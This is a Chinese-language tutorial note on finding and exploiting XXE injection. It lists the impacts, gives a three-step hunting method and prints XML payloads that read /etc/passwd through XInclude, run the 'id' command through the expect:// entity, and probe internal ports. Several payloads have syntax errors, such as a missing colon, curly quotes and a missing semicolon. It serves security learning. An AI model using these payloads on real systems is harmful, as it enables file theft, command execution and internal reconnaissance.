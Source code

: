 **危害：**

- 任意文件读取
- 内网探测：如` <!ENTITY xxe SYSTEM "http://127.0.0.1:8080" >探测端口；`
- 攻击内网站点
- 命令执行：`<!ENTITY xxe SYSTEM "expect://id" >执行命令；`
- DOS攻击
- Bind XXE攻击课用于试试Oob(数据带外攻击)

...











## 挖掘思路

关注可能解析xml格式数据的功能处，较容易发现的是请求包参数包含XML格式数据，不容易发现的是文件上传及数据解析功能处，通过改请求方式、请求头Content-Type等方式进行挖掘。

**三步：**

1. 检测XML是否会被成功解析以及是否支持DTD引用外部实体，有回显或者报错；
2. 若没有回显则可以使用Blind XXE漏洞来构建一条带外信道提取数据；
3. 最后可以尝试XInclude，某些应用程序接收客户端提交的数据，将其嵌入到服务器端的XML文档中，然后解析文档，尝试payload：

```xml
<fooxmlns:xi=“http://www.w3.org/2001/XInclude”>

<xi:include parse ="text" href="file///etc/passwd"/> </ foo>
```





### 执行系统命令

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
		<! ENTITY xxe SYSTEM "expect://id">
]>
<x>&xxe</x>

```





### 探测内网端口

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE ANY[    
    <!ENTITY port SYSTEM "http://127.0.0.1:80">
]> 
<x>&port;</x>

```
